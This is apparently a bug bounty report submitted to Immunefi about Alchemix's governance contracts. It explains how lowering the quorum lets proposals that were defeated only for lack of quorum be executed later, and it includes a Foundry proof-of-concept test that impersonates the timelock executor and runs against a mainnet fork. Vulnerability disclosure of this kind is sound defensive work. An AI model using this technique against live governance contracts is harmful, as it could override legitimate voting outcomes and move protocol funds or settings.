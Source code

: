 
# `AlchemixGovernor` updates to quorum can affect past defeated proposals

Submitted on May 8th 2024 at 13:10:54 UTC by @Lastc0de for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30926

Report type: Smart Contract

Report severity: Low

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/AlchemixGovernor.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
In governance, there are usually proposals that for some reason (such as lack of quorum, and the number of votes ) defetated. This issue concerns instances of Governor that use the module `GovernorVotesQuorumFraction` In your protocol it is known as L2GovernorVotesQuorumFraction :

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/governance/L2GovernorVotesQuorumFraction.sol

GovernorVotesQuorumFraction: Combines with GovernorVotes to set the quorum as a fraction of the total token supply.
AlchemixGovernor inherits this module

~~~
contract AlchemixGovernor is L2Governor, L2GovernorVotes, L2GovernorVotesQuorumFraction /* @AUDIT */, L2GovernorCountingSimple
~~~
So this make vulnerable AlchemixGovernor contract.

If this report is unclear to you, refer to the reference link

## Vulnerability Details

Vulnerable contract is `AlchemixGovernor.sol` && `L2GovernorVotesQuorumFraction.sol`

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/governance/L2GovernorVotesQuorumFraction.sol

Vulnerable function is  `quorum()` :

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/governance/L2GovernorVotesQuorumFraction.sol#L49C1-L51C6
~~~
    function quorum(uint256 blockTimestamp) public view virtual override returns (uint256) {
        return (token.getPastTotalSupply(blockTimestamp) * quorumNumerator()) / quorumDenominator();
    }
~~~
The  `token.getPastTotalSupply(blockNumber)` call will not be optimized the same way and, A mechanism that determines quorum requirements as a percentage of the voting token's total supply. when a proposal is passed to lower the quorum requirement, past proposals may become executable if they had been defeated only due to lack of quorum, and the number of votes it received meets the new quorum requirement.

## Impact Details
Past proposals may become executable if they had been defeated only due to lack of quorum, and the number of votes it received meets the new quorum requirement.

## References

https://github.com/OpenZeppelin/openzeppelin-contracts/security/advisories/GHSA-xrc4-737v-9q75

https://docs.openzeppelin.com/contracts/4.x/api/governance


## Proof of Concept
* To manually prank the executer and call a function with `onlyGovernance` modifier we need add calldata to queue:

1- Add the following function ro `L2Governor.sol` file
~~~
        function pushCalldata(bytes calldata hash) public {
        _governanceCall.pushBack(keccak256(hash));
    }
~~~

2- Add following function to ` AlchemixGovernor.t.sol` file
~~~
function test_Execute_Defeated_Proposal_After_Update_Quorum() public {
    // Random users
        address jimmy = 0xc8dF939C61A33Aa83435bddcE76e6179f4653302;
    address sara = 0x72414Fe88759857e69797B4558a1f1475F32A462;
   
        createVeAlcx(sara, 5000e18, MAXTIME, false);
        createVeAlcx(jimmy, 15_000e18, MAXTIME, false);
       
        assertFalse(voter.isWhitelisted(usdc));

        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();

        hevm.warp(block.timestamp + 2 days); // delay

        uint256 quorum = governor.quorum(block.timestamp);
        uint256 votingPower = veALCX.getVotes(admin);

        assertGt(votingPower, quorum, "voting power should be greater than quorum");

        // propose
        hevm.startPrank(admin);
        uint256 pid = governor.propose(t, v, c, d, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote by sara
        hevm.startPrank(sara);
        governor.castVote(pid, 1);
        hevm.stopPrank();
        // vote by jimmy
        hevm.startPrank(jimmy);
        governor.castVote(pid, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.stopPrank();

        // execute
        hevm.startPrank(admin);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        hevm.expectRevert(abi.encodePacked("Governor: proposal not successful"));
        governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);

        hevm.warp(block.timestamp + governor.votingPeriod() + 10); // update timestamp
        hevm.stopPrank();
       
        // Update quorum numerator with governance

        address executor = address(governor.timelock());

        // Prepare the calldata
        bytes memory calldataRequired = abi.encodeWithSelector(
        bytes4(keccak256("updateQuorumNumerator(uint256)")),1000);

        // Add it to the queue
        governor.pushCalldata(calldataRequired);

        hevm.startPrank(address(executor));

        // Impersonate the executor and call the function
        // Update.
        governor.updateQuorumNumerator(1000);

        hevm.stopPrank();

        // Execute past defeated Proposal
        governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);


        assertTrue(voter.isWhitelisted(usdc));
    }
~~~

3- Run test
~~~
forge test --match-test "test_Execute_Defeated_Proposal_After_Update_Quorum" --fork-url https://eth-mainnet.public.blastapi.io -vvvv
~~~